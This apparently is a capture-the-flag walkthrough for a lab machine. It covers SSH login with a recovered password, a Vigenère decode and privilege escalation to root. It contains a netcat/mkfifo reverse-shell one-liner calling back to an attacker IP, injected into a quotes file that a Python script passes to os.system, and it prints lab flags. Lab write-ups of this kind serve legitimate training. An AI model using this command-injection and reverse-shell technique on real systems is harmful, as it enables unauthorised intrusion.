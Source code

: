 weston:Mydadisghostrideraintthatcoolnocausehesonfirejokes


```                
┌──(kali㉿kali)-[~/Downloads]
└─$ ssh weston@10.10.85.175                                  
The authenticity of host '10.10.85.175 (10.10.85.175)' can't be established.
ECDSA key fingerprint is SHA256:5SfBwCWS7eOa++Pxtlamyng8cPcCWV3yaRPL2zXFcYg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.85.175' (ECDSA) to the list of known hosts.
weston@10.10.85.175's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 10 18:01:50 UTC 2021

  System load:  0.31               Processes:           98
  Usage of /:   20.9% of 19.56GB   Users logged in:     0
  Memory usage: 15%                IP address for eth0: 10.10.85.175
  Swap usage:   0%


39 packages can be updated.
0 updates are security updates.


         __________
        /\____;;___\
       | /         /
       `. ())oo() .
        |\(%()*^^()^\
       %| |-%-------|
      % \ | %  ))   |
      %  \|%________|
       %%%%
Last login: Tue May 26 10:58:20 2020 from 192.168.247.1
weston@national-treasure:~$ 
```

### from email_3

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

==haiinspsyanileph==

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd. 

Regards

The Legend - Cage

```
cage@national-treasure:~$ cat Super_Duper_Checklist 
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
```

haiinspsyanileph
vinegere decode KEY = FACE
cageisnotalegend


getting cage user

```
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
                                                                               
Broadcast message from cage@national-treasure (somewhere) (Sat Jul 10 21:30:01 
                                                                               
I told you I'd share my ticket. I never planned on sharing my heart. Maybe I could get lucky twice today. — It Could Happen to You
                            
```

```
weston@national-treasure:/$ cat /opt/.dads_scripts/spread_the_quotes.py
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)

```


reverse shell as cage

```
weston@national-treasure:/$ find / -type f -user cage 2>/dev/null
/opt/.dads_scripts/spread_the_quotes.py
/opt/.dads_scripts/.files/.quotes
```


```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.65.43 9001 >/tmp/f```

```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.6.65.43 9001 >/tmp/f" > /opt/.dads_scripts/.files/.quotes```

stabilize,
turn off shell, 

```echo "Hello World" > /opt/.dads_scripts/.files/.quotes```
                          
escalate cage to root

linpeas says to go to groups, 

```
cage@national-treasure:/$ su root
Password: 
root@national-treasure:/# id
uid=0(root) gid=0(root) groups=0(root)
root@national-treasure:/# cat /root/root.txt
cat: /root/root.txt: No such file or directory
root@national-treasure:/# cd /
root@national-treasure:/# ls
bin    dev.null    initrd.img.old  media  root  srv       usr
boot   etc         lib             mnt    run   swap.img  var
cdrom  home        lib64           opt    sbin  sys       vmlinuz
dev    initrd.img  lost+found      proc   snap  tmp       vmlinuz.old
root@national-treasure:/# cd root
root@national-treasure:~# ls
email_backup
root@national-treasure:~# ls -la
total 52
drwx------  8 root root  4096 May 26  2020 .
drwxr-xr-x 24 root root  4096 May 26  2020 ..
lrwxrwxrwx  1 root root     9 May 26  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
drwx------  2 root root  4096 May 26  2020 .cache
drwxr-xr-x  2 root root  4096 May 25  2020 email_backup
drwx------  3 root root  4096 May 26  2020 .gnupg
drwxr-xr-x  3 root root  4096 May 25  2020 .local
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
drwx------  2 root root  4096 May 25  2020 .ssh
drwxr-xr-x  2 root root  4096 May 26  2020 .vim
-rw-------  1 root root 11692 May 26  2020 .viminfo
root@national-treasure:~# cd email_backup/
root@national-treasure:~/email_backup# ls
email_1  email_2
root@national-treasure:~/email_backup# cat email_1
From - SeanArcher@BigManAgents.com
To - master@ActorsGuild.com

Good Evening Master

My control over Cage is becoming stronger, I've been casting him into worse and worse roles.
Eventually the whole world will see who Cage really is! Our masterplan is coming together
master, I'm in your debt.

Thank you

Sean Archer
root@national-treasure:~/email_backup# cat email_2
From - master@ActorsGuild.com
To - SeanArcher@BigManAgents.com

Dear Sean

I'm very pleased to here that Sean, you are a good disciple. Your power over him has become
strong... so strong that I feel the power to promote you from disciple to crony. I hope you
don't abuse your new found strength. To ascend yourself to this level please use this code:

THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}

Thank you

Sean Archer
root@national-treasure:~/email_backup#
```